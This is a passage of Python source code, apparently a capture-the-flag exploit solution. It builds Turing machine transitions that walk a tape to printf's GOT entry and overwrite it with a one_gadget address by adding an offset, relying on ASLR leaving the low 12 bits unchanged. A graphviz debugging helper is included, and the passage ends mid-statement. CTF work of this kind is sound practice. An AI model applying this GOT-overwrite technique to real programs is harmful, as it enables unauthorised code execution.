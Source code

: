 ```python
    for bit_idx in range(1, length):
        bit = extract_bit(bit_idx, val, length, dir)
        transitions += [(
                        (bit ^ 1, dir, (start_state + bit_idx + 1)
                         if bit == 0 else (start_state + length + bit_idx + 1)),
                        (bit, dir, start_state + length + bit_idx + 1)
                        )]
    # last carry & maybe infinite carries
    transitions += [((1, dir, start_state + 2 * length + 1),
                     (0, dir, (start_state + 2 * length)))]


def export_graphviz(trans, offset: int = 0) -> str:
    """ 
      Generates a representation for the transitions in the graphviz DOT language.
      Useful for debugging.

      `offset`: If `trans` is a subset of the transitions, adds constant offset to the loop index to find the state index. 
    """
    dot = ["digraph TuringMachine {", "  rankdir=LR;"]

    get_state = (lambda i: f"q{i}")

    for i, (t0, t1) in enumerate(trans):
        cur_state = get_state(offset + i)

        # Transition for tape symbol 0
        sym0, dir0, ns0 = t0
        next_state0 = get_state(ns0)
        label0 = f"0 → {sym0}, {dir0}"
        dot.append(f'  {cur_state} -> {next_state0} [label="{label0}"];')

        # Transition for tape symbol 1
        sym1, dir1, ns1 = t1
        next_state1 = get_state(ns1)
        label1 = f"1 → {sym1}, {dir1}"
        dot.append(f'  {cur_state} -> {next_state1} [label="{label1}"];')

    dot.append("}")
    return "\n".join(dot)


# goto printf@got
search_for(0x6f000007, 8 * 4)

# turn around
transitions += [(
    (0, Dir.Right, len(transitions) + 2 + k),
    (1, Dir.Right, len(transitions) + 2 + k)
) for k in range(5 * 4 + 1)]

# overwrite printf address with one_gadget address by adding offset
add_val(0x8b64f, len(bin(0x8b64f)) - 2)

# instead of the add_val above, one can do the following to safe a few states
# this is equivalent to the operation above because the lowest 12bit of an address are not affected by ASLR.
# write_val(0xd3f, 12, Dir.Right)
# add_val(0x8b, 8)

# padding, stop execution
transitions += [((0, Dir.Right, 0), (1, Dir.Right, 0))] * \
```